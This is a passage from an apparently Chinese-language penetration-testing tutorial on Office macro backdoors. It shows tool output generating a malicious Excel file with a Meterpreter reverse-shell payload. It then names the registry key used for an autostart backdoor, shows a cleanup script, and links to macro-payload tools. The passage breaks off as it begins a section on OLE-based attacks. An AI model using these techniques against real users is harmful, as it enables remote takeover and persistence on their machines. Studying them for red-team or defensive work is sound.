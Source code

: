 ```
------------------------------
Select Attack Number & Press Enter: 1

--------Select Payload---------
1. Meterpreter Reverse HTTPS
2. Meterpreter Reverse HTTP
------------------------------
Select Payload Number & Press Enter: 2
Saved to file C:\Users\Evi1cg\Desktop\Macro.xls
Clean-up Script located at C:\Users\Evi1cg\Desktop\RegistryCleanup.ps1

```

![Alt text](http://drops.javaweb.org/uploads/images/0257ed6ac28ce6e8844a83b21223721cff835c9b.jpg)

运行Excel以后则生成meterpreter会话：

![Alt text](http://drops.javaweb.org/uploads/images/29b1771580762a320f39ab07bfc64adac0088bf5.jpg)

同时生成自启动后门：

![Alt text](http://drops.javaweb.org/uploads/images/b84238921e158e8f69e01c62c492b82cb300e6b7.jpg)

> 具体键值为`HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load`

清除后门可以使用如下命令：

```
PS C:\Users\Evi1cg\Desktop> . .\RegistryCleanup.ps1
[*]Successfully Removed config.vbs from C:\Users\Public
[*]Successfully Removed Malicious Load entry from HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows
[!]Path not valid
[!]Path not valid

```

具体其他后门的使用，有兴趣的小伙伴可是自己实践一下。

其他Macro后门相关的脚本如下：

*   [Old-Powershell-payload-Excel-Delivery](https://github.com/enigma0x3/Old-Powershell-payload-Excel-Delivery)
*   [OutlookPersistence](https://github.com/enigma0x3/OutlookPersistence)
*   [exe2vba.rb](https://raw.githubusercontent.com/OpenWireSec/metasploit/master/tools/exe2vba.rb)
*   [unicorn](https://github.com/trustedsec/unicorn.git)

0x01 Office OLE
=====

OLE是Object Linking and Embedding的缩写，即“对象链接与嵌入”，这是一种把一个文件的一部分嵌入到另一个文件之中的技术，此类攻击方式也被常常应用于APT中，其有一个好处就是不需要用户开启宏，及在禁用宏的情况下执行命令。

### 1、 Outlook OLE
